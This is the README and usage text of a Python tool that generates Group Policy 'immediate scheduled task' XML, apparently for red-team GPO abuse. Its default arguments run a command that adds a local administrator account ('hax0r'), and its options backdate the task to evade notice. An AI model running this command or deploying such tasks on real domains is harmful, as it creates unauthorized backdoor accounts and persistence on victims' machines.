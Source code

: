# schtask_now
Generate XML file for "immediate scheduled task" GPO configuration. Template borrowed from
https://github.com/rasta-mouse/GPO-Abuse/blob/master/scheduled-tasks.md and
https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1
(see New-GPOImmediateTask - note this function has been discontinued in the latest version
of PowerView). One improvement I made (I mean I think it's an improvement :)) is that the
commands are appropriately XML encoded (i.e. & -> &amp; etc.)
For usage info see https://rastamouse.me/2019/01/gpo-abuse-part-2/.

```
usage: schtask_now.py [-h] [-n NAME] [-m DATE] [-d DESCRIPTION] [-c COMMAND]
                      [-a ARGS]

optional arguments:
  -h, --help            show this help message and exit
  -n NAME, --name NAME  name for the scheduled task, if not provided a random
                        name in the form of 'TASK_########' is generated.
  -m DATE, --date DATE  specify task modification date, should be in 'YYYY-MM-
                        DD HH:MM:SS' format. If not provided current date -30
                        days is used.
  -d DESCRIPTION, --description DESCRIPTION
                        specify task description, if not provided empty
                        description is used.
  -c COMMAND, --command COMMAND
                        command to execute, defaults to
                        'c:\windows\system32\cmd.exe'
  -a ARGS, --args ARGS  command arguments, defaults to '/c "net user hax0r
                        Super1337 /add && net localgroup administrators hax0r
                        /add"'
```